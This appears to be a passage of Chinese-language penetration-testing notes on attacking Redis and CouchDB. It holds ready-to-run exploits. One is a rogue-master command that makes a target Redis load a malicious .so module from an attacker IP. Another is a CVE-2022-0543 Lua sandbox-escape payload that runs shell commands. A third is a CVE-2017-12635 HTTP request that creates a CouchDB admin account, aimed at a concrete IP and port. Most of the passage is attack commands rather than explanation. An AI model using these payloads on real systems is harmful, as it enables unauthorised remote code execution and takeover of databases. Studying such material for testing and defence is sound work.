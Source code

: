 ## 2、未授权访问-CNVD-2019-21763

由于在Reids 4.x及以上版本中新增了模块功能，攻击者可通过外部拓展，在Redis中实现一个新的Redis命令。攻击者可以利用该功能引入模块，在未授权访问的情况下使被攻击服务器加载恶意.so 文件，从而实现远程代码执行。

https://github.com/vulhub/redis-rogue-getshell

```shell
python redis-master.py -r 目标IP -p 目标端口 -L 攻击IP -P 8888 -f RedisModulesSDK/exp.so -c "id"
```

## 3、沙箱绕过RCE-CVE-2022-0543

Poc：执行id命令

```shell
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```


# 二、Couchdb-未授权越权&CVE漏洞

默认端口：5984

## Couchdb 垂直权限绕过（CVE-2017-12635）

Apache CouchDB是一个开源数据库，专注于易用性和成为"完全拥抱web的数据库"。它是一个使用JSON作为存储格式，JavaScript作为查询语言，MapReduce和HTTP作为API的NoSQL数据库。应用广泛，如BBC用在其动态内容展示平台，Credit Suisse用在其内部的商品部门的市场框架，Meebo，用在其社交平台（web和应用程序）。在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露利用。

1、先创建用户

```http
PUT /_users/org.couchdb.user:xiaodi HTTP/1.1

Host: 47.94.236.117:44389

Accept: */*

Accept-Language: en

User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)

Connection: close

Content-Type: application/json

Content-Length: 108

{

"type": "user",

"name": "xiaodi",

"roles": ["_admin"],

"roles": [],

"password": "xiaodi"

}
```
